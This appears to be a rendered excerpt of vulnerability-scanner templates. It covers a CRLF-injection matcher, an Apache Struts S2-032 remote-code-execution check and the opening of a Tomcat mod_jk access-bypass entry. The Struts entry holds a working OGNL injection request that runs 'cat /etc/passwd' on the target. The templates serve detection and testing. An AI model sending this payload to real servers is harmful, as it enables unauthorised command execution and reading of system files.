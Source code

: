 - part - header
- regex
  1. (?m)^(?:Set-Cookie\s*?:(?:\s*?|._?;\s_?))(crlfinjection=crlfinjection)(?:\s\*?)(?:$|;)

---

# Apache S2-032 Struts - Remote Code Execution

## Description

- Apache Struts 2.3.19 to 2.3.20.2, 2.3.21 to 2.3.24.1, and 2.3.25 to 2.3.28, when dynamic method invocation is enabled, allows remote attackers to execute arbitrary code via method: prefix (related to chained expressions).

- severity - high
- tags - cve,cve2016,struts,rce,apache

## Requests

### Step - 1

```
GET /index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=cat%20/etc/passwd HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - status**

- status
  1. 200

**Type - regex**

- regex
  1. root:.\*:0:0:

---

# Apache Tomcat JK Connect \<=1.2.44 - Manager Access

## Description

- Apache Tomcat JK (mod_jk) Connector 1.2.0 to 1.2.44 allows specially constructed requests to expose application functionality through the reverse proxy. It is also possible in some configurations for a specially constructed request to bypass the access controls configured in httpd. While there is some overlap between this issue and CVE-2018-1323, they are not identical.
